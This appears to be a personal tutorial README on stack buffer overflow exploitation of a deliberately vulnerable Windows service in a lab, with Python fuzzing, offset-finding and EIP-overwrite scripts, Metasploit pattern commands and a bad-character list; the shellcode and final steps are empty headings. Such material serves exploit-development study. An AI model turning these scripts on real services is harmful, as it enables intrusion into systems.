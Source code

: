 Open the exe file as admin
Go to Debugger and then File -> Attach and then select the program.

## Step 1: SPIKING (Find vulnerable part of program)

Connect to the vuln application
```bash
nc -nv (ip addr of your windows machine it is running on) (port number): my ip is 10.0.0.52
```
Now throw bunch of charecters in each command and see if any of the commands accepted by the application is vulnerable
TO throw bunch of charecter we use 
```bash
./generic_send_tcp (ip adddr) (port) (some.spk) 
```
some.spk will look like: you can send as many charecter. just try to break the program
```bash
s_readline();
s_string("Some command name to test ");
s_string_variable("0");
```

Look you have to overwrite everything(ESP, EBP) till EIP. EIP will help to get the root access to anything.
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************

## Step 2: Fuzzing (Send bunch of charecter to break the program)
Use the below python code for a fuzzing script to break the specific command.
```bash
#!/usr/bin/python
import sys, socket
from time import sleep

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((target_ip, target_port))
		
		s.send(('TRUN /.:/' + buffer).encode())
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
		
	except:
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```
then do
```bash
chmod +x file.py
```
Then run the file

```bash
./file.py
```

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 3: Finding the offset (At what point it breaks)

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (length from the previous output + some random offset to be safe)
```

Create another python file and use the following code:
```bash
#!/usr/bin/python
import sys, socket

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

offset = "(The value from the previous metasploit command)"

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target_ip, target_port))
	
	s.send(('TRUN /.:/' + offset).encode())
	s.close()
	
except:
	print("Error Connecting to server")
	sys.exit()
```
Make the file executable
```bash
chmod +x file.py
```
Then run the file

```bash
./file.py
```

Copy the Number in front of EIP column in immunity debugger and then use the following command

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q (value in front of EIP)
```

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 4: Overwriting the EIP
Make another .py file to check EIP final and overwrite it

```bash
#!/usr/bin/python
import sys, socket

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

shellcode = "A" * number from previous meta command + "B" * 4

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target_ip, target_port))
	
	s.send(('TRUN /.:/' + shellcode).encode())
	s.close()
	
except:
	print("Error Connecting to server")
	sys.exit()
```

Run the above file and see if it is the desired output

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 5: Finding the Bad Charecters
BadChar List
```bash
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 6: Finding the right module
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 7: Generating shellcode
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 8: Gain Root
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************




